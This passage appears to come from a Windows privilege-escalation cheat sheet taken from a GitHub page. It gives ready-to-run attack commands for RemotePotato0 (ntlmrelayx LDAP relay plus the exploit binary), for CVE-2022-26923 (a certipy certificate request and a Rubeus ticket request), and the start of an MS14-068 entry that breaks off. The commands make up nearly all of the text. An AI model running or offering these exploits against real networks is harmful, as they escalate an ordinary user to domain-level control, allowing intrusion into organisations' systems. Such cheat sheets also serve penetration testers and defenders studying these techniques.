 1\.

https://github.com/riparino/Task_Scheduler_ALPC

<a name="remotepotato0"></a>
# RemotePotato0

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

sudo ntlmrelayx.py -t ldap://10.0.0.10 \--no-wcf-server \--escalate-user
normal_user

2\.

.\\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

<a name="cve-2022-26923"></a>
# CVE-2022-26923

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

certipy req \'lab.local/cve\$:CVEPassword1234\*\@10.100.10.13\'
-template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA

2\.

Rubeus.exe asktgt /user:\"TARGET_SAMNAME\" /certificate:cert.pfx
/password:\"CERTIFICATE_PASSWORD\" /domain:\"FQDN_DOMAIN\"
/dc:\"DOMAIN_CONTROLLER\" /show

<a name="ms14-068"></a>
# MS14-068

Domain: Y/N

Local Admin: Yes

OS: Windows

